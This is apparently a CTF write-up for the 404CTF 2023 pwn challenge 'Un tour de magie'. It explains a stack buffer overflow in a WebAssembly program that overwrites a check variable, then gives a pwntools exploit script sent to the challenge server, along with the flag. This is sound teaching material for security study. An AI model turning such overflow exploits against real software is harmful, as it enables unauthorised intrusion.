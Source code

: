 ```yaml
---
title: CTFs | 404CTF_2023 | Pwn | Un tour de magie
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Stack, Heap]
permalink: /CTFs/404CTF_2023/Pwn/Un_tour_de_magie
---
```


# Un tour de magie

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/bfc3ecc5-ed76-46fe-8249-30142939e53b)

In this challenge, we are given [this](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Pwn/tour-de-magie.zip) zip file containing the source code and the compiled code. 

The compiled code is a `WASM` file. `WASM` stands for` WebAssembly`, which is a binary instruction format designed for the web. `WebAssembly` is a low-level virtual machine that is designed to run efficiently on web browsers and provides a portable execution environment for web applications. It allows developers to write code in languages such as `C`, `C++`, and `Rust` and compile them into `WebAssembly`, which can then be executed in a web browser alongside JavaScript.


As we can see in the main source code, we have an `input` variable that is of length `20`, but then the `fgets` take an input of `200`... There should be a possibility of buffer overflow here...

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/1affc23c-c7d6-42d2-9722-62d1ea081508)

We can first try to run with 21 `A`s, but we get the following error:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/72f67c7e-c95a-41d0-a3f4-562a5c572234)

This is because we didn't change the value of `check`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e47893a5-f280-4440-9878-d404f224b2fd)

We can try to add more characters, and when we get to `23`, we get the result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/d7c28ede-650d-4733-a857-daa3eff8fa78)

Which comes from:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ceb521c7-8728-496f-b2d3-1f1fd6504405)

Now that we managed to modify the address of check, we need to modify it to `0x50bada55` to be able to get the flag. So let's try to put 19 `A`s and 4 `B`s where the `B`s are representing the address of `check` that we need to override:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e14a1a84-2a66-46b8-8432-701dde962361)

As we can see, we don't have all the `B`s (42) at the end. So let's put 18 `A`s, 4 `B`s and 1 `C`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/91527337-5826-4770-b83b-caaaff67d889)


As we can see, we have two `B`s instead of one. We do the same thing until we get to 16 `A`s, 4 `B` and 3 `C`s:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/904e4288-dff6-4249-933e-f4f7883cec6f)


And now we have all the `B`s. We can now use the following code to do the same thing but automatically and send the payload to the netcat server!

```python
from pwn import *

# Establish the connection to the vulnerable C program
#io = process(['./wasmtime', 'main.wasm'])

io = remote("challenges.404ctf.fr", 30274)

# Craft the payload to set *check to 0x50bada55
payload = b'A' * 16  + p32(0x50bada55) + b"C" *3

print(io.recvline())
# Send the payload to the program
io.sendline(payload)

# Receive and print the program's output
output = io.recvline()
print(output)

if (b"Apparemment non" not in output):
	output = io.recvall()
	print("Flag :", output.decode())

# Close the connection
io.close()
```

We get the following result:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/064c3cc4-b342-4e75-87b3-ca65cce2935c)

The flag is `404CTF{W0w_St4Ck_3cR4s3_l4_H34P_Qu3LL3_M4G13}`
